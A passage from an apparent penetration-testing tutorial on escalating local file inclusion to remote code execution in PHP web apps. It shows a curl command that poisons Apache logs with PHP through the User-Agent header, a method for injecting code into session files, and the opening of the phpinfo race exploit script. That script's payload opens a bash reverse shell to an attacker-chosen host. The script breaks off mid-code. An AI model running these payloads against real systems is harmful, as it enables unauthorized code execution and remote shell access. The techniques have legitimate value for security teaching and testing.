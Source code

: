 **Method six: From LFI TO RCE**

**Log file poisoning** We can poison log files of ssh or apache server by injecting a php code in the log file then execute the code by including the log file via the request. A common way to inject log files of apache servers is to inject the user agent field in the request with your code.

```
curl -A "<?php phpinfo();?>" http://domain.com/login.php
```

This will make the user agent equals to the php code above hence when visting the login page, the webserver will log the attempt with the injected user agent. Next step is to use the \[LFI] and visit the log file to execute the code. **PHP Sessions** This technique relies on knowing the php configuration of the web application to locate and find the sessions file. The \[sessions] files stores information about your login including the cookies and the username. If we can inject a \[php code] in the username field then by locating and visiting the \[sessions file] we can execute and trigger the code. Sessions files are normally located in one of the below locations

```
c:\Windows\Temp
/tmp/
/var/lib/php5
/var/lib/php/session
```

Your best chance is to access \[phpinfo] and view where the sessions file is located. Next inject a php code in the username field. You can do this by using your php code as the username before you login. After that, your php code will have been recorded in the sessions file. Now given that the web application is vulnerable to \[LFI] you can then include the \[sessions] file in your request to trigger the php code. **Using phpinfo** This relies on the ability to access and locate php configruation of the target. This could by accessing and locating \[phpinfo.php]. The code below can be used and modified as per your scenario to gain shell access. You can also download the below script from this link \[https://www.insomniasec.com/downloads/publications/phpinfolfi.py]. Remember to change on \[REQ1] variable to the correct phpconf file you found. Also Make sure to put in the value of \[phpsessid] in the code. Change on \[local\_ip] and \[local\_port] in the variable \[PAYLOAD] to point to your ip and the port of your listener.

```python
#!/usr/bin/python 
import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r <?php system("bash -c 'bash -i >& /dev/tcp/%s/%d 0>&1'");?>\r""" % (TAG, local_ip, local_port)
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /lfi.php?load=%s%%00 HTTP/1.1\r
```